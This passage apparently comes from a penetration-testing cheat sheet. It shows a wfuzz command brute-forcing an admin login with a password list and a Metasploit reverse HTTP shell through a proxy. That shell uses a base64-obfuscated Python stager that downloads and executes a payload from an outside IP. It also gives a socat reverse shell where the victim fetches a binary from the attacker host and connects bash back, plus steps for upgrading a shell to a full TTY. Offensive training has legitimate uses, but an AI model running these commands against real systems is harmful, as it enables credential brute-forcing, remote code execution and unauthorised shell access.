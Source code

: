 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```
![icmpreverseshell](https://user-images.githubusercontent.com/7115563/35213289-6ac51b00-ff5d-11e7-9b66-766af2aaf92e.png)

Reference: https://esgeeks.com/icmpsh-shell-reverse-con-icmp/


<a name="httpproxy"></a><h3> Reverse HTTP Shell through Proxy </h3>

<pre>use payload/python/meterpreter/reverse_http</pre>

![proxy2](https://user-images.githubusercontent.com/7115563/33836652-3d9c9624-de8a-11e7-9869-e18c5a28ebd7.png)


```python -c "import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('aW1wb3J0IHN5cwp2aT1zeXMudmVyc2lvbl9pbmZvCnVsPV9faW1wb3J0X18oezI6J3VybGxpYjInLDM6J3VybGxpYi5yZXF1ZXN0J31bdmlbMF1dLGZyb21saXN0PVsnYnVpbGRfb3BlbmVyJywnUHJveHlIYW5kbGVyJ10pCmhzPVtdCmhzLmFwcGVuZCh1bC5Qcm94eUhhbmRsZXIoeydodHRwJzonaHR0cDovLzE5Mi4xNjguMTA3LjIzMjo4MDgwJ30pKQpvPXVsLmJ1aWxkX29wZW5lcigqaHMpCm8uYWRkaGVhZGVycz1bKCdVc2VyLUFnZW50JywnTW96aWxsYS81LjAgKFdpbmRvd3MgTlQgNi4xOyBUcmlkZW50LzcuMDsgcnY6MTEuMCkgbGlrZSBHZWNrbycpXQpleGVjKG8ub3BlbignaHR0cDovLzE3OC42Mi41OC4zNTo4MC9qOTkzQScpLnJlYWQoKSkK')))"```

Finally we set up the handler:

![proxy3](https://user-images.githubusercontent.com/7115563/33836552-fd3204ac-de89-11e7-940c-71c8ab321bf7.png)


<a name="misc"></a><h2> Miscellaneous </h2>

<a name="interactiveshell"></a><h3> Interactive Reverse Shell </h3>

<b> Method 1 </b>

Attacker:

```socat file:`tty`,raw,echo=0 TCP-L:4444```

Victim:

```wget -q http://10.10.14.16/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.16:4444```

Socat Binary: https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat

<b> Method 2 </b>

In reverse shell

<pre>
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
</pre>

In kali

<pre>
echo $TERM
stty -a
stty raw -echo
fg
</pre>

In reverse shell

<pre>
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```